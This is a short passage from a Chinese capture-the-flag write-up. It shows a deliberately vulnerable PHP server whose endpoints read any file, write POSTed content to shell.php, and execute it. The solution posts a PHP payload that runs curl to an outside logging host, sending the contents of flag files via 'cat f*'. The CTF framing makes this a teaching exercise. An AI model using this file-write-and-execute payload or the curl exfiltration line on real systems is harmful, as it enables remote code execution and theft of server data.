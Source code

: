 ```php
    }
    
});
$http->start();

class ctf{
	public function show($request,$response){
		 $response->header('Content-Type', 'text/html; charset=utf-8');
		 $s=$request->post['s'];
		 if(isset($s)){
		 	$response->end(file_get_contents($s));
		 }else{
		 	$response->end('s not found');
		 }
	}
	public function file($request,$response){
 		 $response->header('Content-Type', 'text/html; charset=utf-8');
		 $s=$request->post['s'];
		 if(isset($s)){
		 	file_put_contents('shell.php', $s);
		 	$response->end('file write done in /var/www/shell.php');
		 }else{
		 	$response->end('s not found');
		 }
	}
	public function exec($request,$response){
		system('php shell.php');
		$response->end('command exec done');
	}
}
```

大概是说，在`/ctf/file post`借助参数`s`传的数据会写入到shell.php中，
当访问`/ctf/exec`就会去执行`php shell.php`

那内容随意发挥了,本来想写到txt里直接看的，但是路径有点蒙，还是把内容带出来吧

> 453、455、456
>
> ```
> url/ctf/file
> s=<?php system('curl http://w0gind.ceye.io?flag=`cat f*`'); ?>
> 
> url/ctf/exec
> ```

> 454
>
> ```
> url/ctf/file
> s=<?php system('curl http://w0gind.ceye.io?flag=`cat f*`'); ?>
> 
> url/ctf/include
> ```
